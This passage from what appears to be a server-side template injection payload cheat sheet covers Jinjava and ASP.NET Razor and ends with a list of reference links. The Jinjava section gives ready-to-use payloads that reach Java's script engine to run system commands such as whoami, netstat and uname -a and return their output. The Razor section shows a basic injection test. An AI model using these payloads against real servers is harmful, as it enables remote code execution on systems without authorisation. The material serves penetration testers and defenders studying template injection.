### Command execution 

Fixed by https://github.com/HubSpot/jinjava/pull/230

```python
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}


{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```

## ASP.NET Razor

### Basic injection

```powershell
@(1+2)
```

### Command execution 

```csharp
@{
  // C# code
}
```

## References

* [https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/](https://nvisium.com/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii/)
* [Yahoo! RCE via Spring Engine SSTI](https://hawkinsecurity.com/2017/12/13/rce-via-spring-engine-ssti/)
* [Ruby ERB Template injection - TrustedSec](https://www.trustedsec.com/2017/09/rubyerb-template-injection/)
* [Gist - Server-Side Template Injection - RCE For the Modern WebApp by James Kettle (PortSwigger)](https://gist.github.com/Yas3r/7006ec36ffb987cbfb98)
* [PDF - Server-Side Template Injection: RCE for the modern webapp - @albinowax](https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf)
* [VelocityServlet Expression Language injection](https://magicbluech.github.io/2017/12/02/VelocityServlet-Expression-language-Injection/)
* [Cheatsheet - Flask & Jinja2 SSTI - Sep 3, 2018 • By phosphore](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)
* [RITSEC CTF 2018 WriteUp (Web) - Aj Dumanhug](https://medium.com/@ajdumanhug/ritsec-ctf-2018-writeup-web-72a0e5aa01ad)
* [RCE in Hubspot with EL injection in HubL - @fyoorer](https://www.betterhacker.com/2018/12/rce-in-hubspot-with-el-injection-in-hubl.html?spref=tw)
* [Jinja2 template injection filter bypasses - @gehaxelt, @0daywork](https://0day.work/jinja2-template-injection-filter-bypasses/)
* [Gaining Shell using Server Side Template Injection (SSTI) - David Valles - Aug 22, 2018](https://medium.com/@david.valles/gaining-shell-using-server-side-template-injection-ssti-81e29bb8e0f9)
* [EXPLOITING SERVER SIDE TEMPLATE INJECTION WITH TPLMAP - BY: DIVINE SELORM TSA - 18 AUG 2018](https://www.owasp.org/images/7/7e/Owasp_SSTI_final.pdf)